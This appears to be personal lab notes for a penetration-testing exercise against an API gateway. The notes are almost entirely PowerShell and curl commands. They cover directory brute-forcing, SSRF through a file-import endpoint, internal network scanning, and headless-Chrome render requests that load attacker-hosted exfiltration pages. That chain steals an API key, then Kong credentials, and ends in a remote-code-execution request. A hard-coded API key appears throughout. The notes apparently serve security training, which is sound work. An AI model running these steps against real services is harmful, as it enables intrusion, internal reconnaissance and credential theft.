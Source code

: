 directory scan:
```powershell
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -u http://apigateway:8000/FUZZ -t 200 -o endpoints.json
```
We could convert the json into a hashmap and work with the object:
```powershell
$hashtable = gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable 
$hashtable.results
```
but here is a more effective one liner:
```powershell
gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable | % -process { $_.results.GetEnumerator()} | % -process {Add-Content -Path parsed-urls.txt -Value $_.url}
```
Stripped Files
```powershell
foreach ($i in gc ./parsed-urls.txt) {Add-Content -Path endpoints-stripped.txt -value $i.split('/')[3]}
```
Http verb tampering
```powershell
Invoke-RouteBuster -ActionList ./actions-only-valid.txt -Wordlist ./wordlist-only-valid.txt -Target http://apigateway:8000 -Methods get,post
```

ssrf poc:
In particular this is a good example of how to send a json payload
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://192.168.119.144/"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.118.3/ssrftest"}' http://apigateway:8000/files/import
```

One interesting observeration is that python3 webserver provides less information than apache. To be specific when reading the apache servers logs we are able to see the user agent of the file import microservice: axios/0.21.1
```bash
sudo systemctl start apache2
sudo systemctl status apache
sudo tail /var/log/apache2/access.log -f
```

One thing also worth mentioning is that 'Access-Control-Allow-Credentials' is set on file/import and almost every other endpoing we bruteforced 
```bash
sudo tail /var/log/apache2/access.log -f
```

We can scan a list of gateways with:
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/22' -Ports 8000 -Gateway
```
We can detect all of the live hosts and scan ports within the '172.16.16.0/28' range (/28 gives us the first 15 ip addresses, /29 gives the first 6)
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/28' -Hosts -Open
```
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/29' -Ports 8000 -Hosts -Open
```


headless chrome test powershell:
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/test.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Exfiltration via Javascript. Note that the internal Javascript reaches out to 172.16.16.4:8001 so at this point there are two ssrf targets.
- 172.16.16.2:9000
- 172.16.16.4:8001
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/exfiltration.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Exfiltrate api key
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/api-key-extraction.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Authenticated request to /render service
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```

Without calling the File Import service, recreate the attack to steal credentials from Kong by calling the Render service directly with the API key.
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163/api-key-extraction.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Adjust your HTML payload so the credentials are included in the PDF the service returns:
This version is as a pdf
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://172.16.16.4:8001/key-auths"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck -Outfile apicredentials.pdf
```
This version is as html, learned about the output parameter from: https://github.com/alvarcarto/url-to-pdf-api
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://172.16.16.4:8001/key-auths"; "output"="html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```

Using flask as a callbackserver to server the javascript payloads and process their outputs.
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163:1080/exfiltration_extramile_chunked.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```powershell
iwr -Uri http://apigateway:8000/render -Header @{"apiKey"="SBzrCb94o9JOWALBvDAZLnHo3s90smjC"}  -method Post -body (@{"url"="http://192.168.119.163:1080/api-key-extraction-callback-server.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```

rce:
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/rce.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```powershell
iwr -Uri 'http://apigateway:8000/donkey' -SkipHttpErrorCheck
```